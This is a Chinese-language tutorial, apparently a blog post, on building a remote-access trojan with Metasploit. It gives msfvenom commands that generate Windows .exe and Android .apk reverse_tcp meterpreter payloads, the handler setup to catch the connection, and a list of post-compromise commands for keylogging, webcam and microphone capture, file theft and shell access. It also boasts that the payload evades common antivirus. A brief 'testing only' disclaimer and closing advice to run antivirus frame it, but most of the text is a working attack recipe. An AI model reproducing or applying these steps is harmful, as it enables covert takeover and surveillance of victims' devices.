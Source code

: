 相信很多人都有这种感觉,觉得那些会做木马病毒的人非常牛逼,当然会自己完全写出来木马病毒的肯定非常牛逼,但是实际上,大部分人都是在前人的基础上修改,
很多则是用工具生成,出于兴趣,研究了一段时间"黑"科技,也实践了一下!总结了几点简单的工具用法,如果你会用这些工具,你会发现也许一个木马没有你像现在那么难做出来!
本文是本着研究的精神,所有攻击行为都是测试,请勿用于非法用途!

测试环境:kali linux windows7 windows 10 Android等操作系统

主要工具:metasploit framework

关于所用工具,本文不做过多介绍,这里介绍的使用方法也是最基本最简单的用法，其实不仅仅是windows或者Android，还是Mac，Linux，都可能受到这种攻击:

### 1.使用metasploit 工具生存一个木马(windows版本)  ,命令如下:
```
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.47 LPORT=8080 -f exe >demo.exe
```
LHOST=后面的ip地址是你自己的局域网ip,目前本人所有的攻击测试仅在局域网试过,也就是内网!

demo.exe为生成的木马文件,把木马文件拷贝到对方电脑上,双击即可运行!据测试,该木马可以过360安全卫士,电脑管家等常用杀毒软件!这还是在没有做任何加密\加壳的情况下.....不过在有些人的电脑上360可以杀出来!可能是版本不同

### 2.打开软件,设置好监听,命令依次如下:
```
use exploit/multi/handler
set payloads windows/meterpreter/reverse_tcp
set LHOST 192.168.1.47
set LPORT 8080
exploit
```

### 3.坐等上钩
此时,只要对方电脑点击运行demo.exe木马文件,这边监听端口就可以收到信息,建立连接!然后可以执行一些入侵指令,对方现在电脑完全在你的掌控之下,常用命令如下:
```
sysinfo     //查看攻击主机的系统信息
kill         //结束进程
ps          //查看进程
reboot      //重启电脑
reg        //修改注册表
shell        //获取shell
shutdown    //关闭电脑
keyscan_start //开启健盘记录功能
keyscan_dump //查看健盘记录信息
keyscan_stop //停止健盘记录
download     //下载文件
upload        //上传文件
uictl enable keyboard　　　//获取键盘鼠标控制权
record_mic　　　　//音频录制
webcam_chat　　　//查看摄像头接口
webcam_list　　　//查看摄像头列表
webcam_stream　 //摄像头视频获取
................
```
### 4.生成Android版本的木马,其实步骤和上面差不多
```
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.47 LPORT=8080 -r >demo.apk
```
只要你下载安装到你手机上,你手机基本上也是别人的了,获取联系人\通讯录\定位打开摄像头\照片.......而且经测试,小米手机自带的安全中心对此木马完全没用!

不过,据我暂时了解的知识,距离一个完整的木马还有点距离:

1.杀毒软件.据我测试,腾讯的电脑管家就是垃圾,扫描不出来我生成的木马,360基本上一扫就出来,经过简单编码加密后,360会提示风险程序,而系统自带的windows defender更是一点点用都没.不过要想真把木马做成免杀还得花点功夫.......

2.木马持续后门.所谓持续后门就是能让木马开机后自启,经测试,msf自带的2种方法无效.....暂时未找到可行性方法!

3.权限问题.360是个麻烦事,在有些机子上进行操作,比如打开摄像头,360会有提示.....而且木马暂时还没法子终结360的进程,所以蛋疼!

在日常生活中,专门去攻击某些个人的情况很少,很多时候黑客都是采用自动化工具遍地撒网,利用一些公开的漏洞进行攻击!普通人能做的只是让自己别中这些自动化黑客工具的招就行了,如果某些个人或者组织想黑你,真的很简单.............
而且为了安全，最好装一个安全防护软件，甭管是360还是诺顿，亦或者是卡巴斯基，为啥？为的就是防止受到这些生成的木马攻击，这些木马虽然技术含量不高，
但是如果你裸奔，那还真是送，除非你保证你从不在网上下载各种破解软件或者补丁！